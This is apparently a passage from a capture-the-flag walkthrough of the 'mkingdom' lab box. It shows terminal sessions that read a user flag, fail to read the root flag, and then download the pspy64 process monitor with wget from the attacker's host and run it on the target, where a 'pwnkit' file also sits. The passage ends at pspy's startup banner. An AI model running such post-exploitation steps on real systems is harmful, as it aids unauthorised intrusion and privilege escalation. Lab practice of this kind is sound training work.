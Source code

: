 su mario 

`mario@mkingdom:/$ find / -type f -name cat 2>/dev/null`  
`find / -type f -name cat 2>/dev/null`  
`/bin/cat`  
`/usr/lib/klibc/bin/cat`  
`mario@mkingdom:/$ /usr/lib/klibc/bin/cat user.txt`  
`/usr/lib/klibc/bin/cat user.txt`  
`user.txt: No such file or directory`  
`mario@mkingdom:/$ cd home/mario`  
`cd home/mario`  
`mario@mkingdom:~$ /usr/lib/klibc/bin/cat user.txt`  
`/usr/lib/klibc/bin/cat user.txt`  
`thm{030a769febb1b3291da1375234b84283}`  
`mario@mkingdom:~$ /usr/lib/klibc/bin/cat /root/root.txt`  
`/usr/lib/klibc/bin/cat /root/root.txt`  
`/root/root.txt: Permission denied`  
`mario@mkingdom:~$ /usr/lib/klibc/bin/cat > user.txt`  
`/usr/lib/klibc/bin/cat > user.txt`  
`bash: user.txt: Permission denied`

mario@mkingdom:~\$ wget http://10.9.240.91:8000/ctf/pspy64  
wget http://10.9.240.91:8000/ctf/pspy64  
\--2025-08-29 01:56:28-- http://10.9.240.91:8000/ctf/pspy64  
Connecting to 10.9.240.91:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 3104768 (3.0M) \[application/octet-stream\]  
Saving to: ‘pspy64’

100%\[======================================>\] 3,104,768 388KB/s in 8.7s

2025-08-29 01:56:37 (349 KB/s) - ‘pspy64’ saved \[3104768/3104768\]

mario@mkingdom:~\$ ls  
ls  
Desktop Downloads Music pspy64 pwnkit user.txt  
Documents id Pictures Public Templates Videos  
mario@mkingdom:~\$ chmod +x pspy64  
chmod +x pspy64  
mario@mkingdom:~\$ ./pspy64  
./pspy64  
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

&nbsp;` `

&nbsp;    ██▓███ ██████ ██▓███ ▓██ ██▓  
    ▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒  
    ▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░  
    ▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░  
    ▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░  
    ▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒  
    ░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░  
    ░░ ░ ░ ░ ░░ ▒ ▒ ░░  
                   ░ ░ ░  
                               ░ ░
